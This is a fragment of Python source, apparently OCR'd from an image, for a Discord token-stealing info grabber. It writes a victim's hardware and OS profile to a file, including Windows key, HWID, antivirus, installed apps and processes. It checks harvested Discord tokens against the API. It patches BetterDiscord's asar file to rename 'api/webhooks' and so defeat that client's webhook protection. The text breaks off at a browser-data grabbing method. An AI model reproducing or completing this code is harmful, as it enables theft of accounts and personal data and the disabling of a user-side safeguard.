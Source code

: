                 try: disk = str(psutil.disk_usage('/')[0] / 1024 ** 3).split(".")[0]
                except Exception: disk = 'N/A'; self.exceptions.append(traceback.format_exc())
                sep = '='*40
                f.write(f'''{sep}
                HARDWARE 
{sep}

CPU: {cpu}
GPU: {gpu}

RAM: {ram} GB
Disk Size: {disk} GB

PC Manufacturer: {buildmnf}
Model Name: {modelname}

Screen Info:
Resolution: {screensize}
Refresh Rate: {refreshrate}Hz

System Slots:
{systemslots}

{sep}
                   OS
{sep}

Username: {username}
PC Name: {pcname}

Build Name: {osname}
Edition: {buildname}
Windows Key: {windowskey}
HWID: {hwid}
Antivirus: {avlist}

{sep}
                  PATH
{sep}

{path}

{sep}
             INSTALLED APPS
{sep}

{installedapps}

{sep}
            RUNNING PROCESSES
{sep}

{processes}
''')

    def checkToken(self, tkn, source):
        try:
            r = requests.get(self.baseurl, headers=self.getHeaders(tkn))
            if r.status_code == 200 and tkn not in [token[0] for token in self.tokens]:
                self.tokens.append((tkn, source))
                self.stats['tokens'] += 1
        except Exception: self.exceptions.append(traceback.format_exc())
    def bypassBetterDiscord(self):
        bd = self.roaming+"\\BetterDiscord\\data\\betterdiscord.asar"
        if os.path.exists(bd):
            with open(bd, 'r', encoding="utf8", errors='ignore') as f:
                txt = f.read()
                content = txt.replace('api/webhooks', 'api/nethooks')
            with open(bd, 'w', newline='', encoding="utf8", errors='ignore') as f: f.write(content)
    def grabBrowserInfo(self, platform, path):